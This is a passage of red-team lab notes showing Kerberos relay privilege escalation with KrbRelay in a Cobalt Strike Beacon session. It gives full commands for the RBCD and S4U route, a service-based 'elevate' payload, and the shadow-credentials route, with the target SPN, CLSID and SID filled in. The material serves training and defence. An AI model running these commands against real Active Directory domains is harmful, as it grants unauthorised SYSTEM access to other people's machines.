With that, run KrbRelay.

```
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-569305411-121244042-2357301523-9101 -port 10
```

Where:

- `-spn` is the target service to relay to.
- `-clsid` represents `RPC_C_IMP_LEVEL_IMPERSONATE`.
- `-rbcd` is the SID of the fake computer account.
- `-port` is the port returned by CheckPort.

If we query `WKSTN-2$`, we'll see that there's now an entry in in its _msDS-AllowedToActOnBehalfOfOtherIdentity_ attribute.

```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

Because we have the password associated with EvilComputer, we can request a TGT and perform an S4U to obtain a usable service tickets for WKSTN-2.  Let's use this to get a ticket for `HOST/WKSTN-2`.

1. [[Rubeus#asktgt]]
2. [[Rubeus#s4u]]

To perform the elevation, we'll use this ticket to interact with the local Service Control Manager over Kerberos to create and start a service binary payload.  To streamline this, I've created a BOF and Aggressor Script that registers a new `elevate` command in Beacon.  It can be found in `C:\Tools\SCMUACBypass` and is based on James' [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) gist.

```
beacon> elevate svc-exe-krb tcp-local
```


#### Shadow Credentials

The advantage of using shadow credentials over RBCD is that we don't need to add a fake computer to the domain.  First, verify that WKSTN-2 has nothing in its `msDS-KeyCredentialLink` attribute.

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:wkstn-2$
```

Run KrbRelay as before, but this time with the `-shadowcred` parameter.

```
beacon> execute-assembly C:\Tools\KrbRelay\KrbRelay\bin\Release\KrbRelay.exe -spn ldap/dc-2.dev.cyberbotic.io -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred -port 10
```
